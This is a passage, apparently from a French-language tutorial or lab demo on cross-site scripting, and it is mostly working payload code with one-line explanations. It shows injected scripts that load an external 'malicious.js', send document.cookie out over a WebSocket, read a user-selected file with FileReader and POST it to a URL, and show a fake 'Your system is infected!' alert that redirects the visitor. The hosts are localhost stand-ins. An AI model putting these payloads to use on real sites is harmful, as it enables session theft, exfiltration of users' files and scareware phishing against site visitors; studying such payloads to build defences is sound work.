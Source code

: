 ```html
<script>
    document.write('<script src="http://localhost/demo2/malicious.js"><\/script>');
</script>
```

**Explication :** Ce script injecte une balise script persistante sur la page.

#### Scripts très avancés

- **Utilisation de WebSockets pour exfiltrer des données :**

```html
<script>
    var ws = new WebSocket('ws://localhost/demo2/socket');
    ws.onopen = function() {
        ws.send('Exfiltrating data...');
        ws.send(document.cookie);
    };
</script>
```

**Explication :** Ce script utilise les WebSockets pour envoyer des données en temps réel à une URL spécifiée.

- **Exploitation de l'API FileReader pour voler des fichiers locaux (avec interaction utilisateur) :**

```html
<script>
    var input = document.createElement('input');
    input.type = 'file';
    input.onchange = function(event) {
        var file = event.target.files[0];
        var reader = new FileReader();
        reader.onload = function(e) {
            var xhr = new XMLHttpRequest();
            xhr.open('POST', 'http://localhost/demo2/upload', true);
            xhr.setRequestHeader('Content-Type', 'application/octet-stream');
            xhr.send(e.target.result);
        };
        reader.readAsBinaryString(file);
    };
    document.body.appendChild(input);
</script>
```

**Explication :** Ce script crée un élément input de type fichier et utilise l'API FileReader pour lire et envoyer le contenu du fichier à une URL spécifiée.

- **Déclenchement de fausses alertes de sécurité :**

```html
<script>
    alert('Your system is infected! Click OK to fix.');
    window.location.href = 'http://localhost/demo2/fix';
</script>
```
